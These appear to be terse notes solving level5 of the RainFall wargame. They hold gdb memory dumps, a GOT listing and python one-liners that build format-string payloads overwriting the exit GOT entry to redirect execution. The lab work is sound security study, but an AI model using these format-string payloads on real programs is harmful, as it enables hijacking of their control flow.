 ```sh
(gdb) x/80x $esp
0xbffff510:	0xbffff520	0x00000200	0xb7fd1ac0	0xb7ff37d0
0xbffff520:	0x41414141	0xb7e2000a	0x00000001	0xb7fef305
0xbffff530:	0xbffff588	0xb7fde2d4	0xb7fde334	0x00000007
```

```sh
level5@RainFall:~$ python -c "print('\x41\x41\x41\x41' + '%4\$x')" | ./level5 
AAAA41414141
```

```sh
level5@RainFall:~$ objdump -R level5 

level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
<08049838 R_386_JUMP_SLOT   exit >
0804983c R_386_JUMP_SLOT   __libc_start_main
```

```sh
(gdb) x/x &o
0x80484a4 <o>:	0x83e58955
```

[control EIP with string format exploit (doc)](https://samsclass.info/127/proj/p6a-fs.htm)

python -c "print('\x38\x98\x04\x08' + '\x39\x98\x04\x08' + '%4\$n%x%n')" > /tmp/test5

python -c "print('\x38\x98\x04\x08' + '\x39\x98\x04\x08' + '%256\$x' + '%4\$n')" > /tmp/test5

python -c "print('\x38\x98\x04\x08\x39\x98\x04\x08\x3a\x98\x04\x08\x3b\x98\x04\x08' + '%1$148x' + '%4\$n' + '%5\$n' + '%6\$n' + '%7\$n')" > /tmp/test5
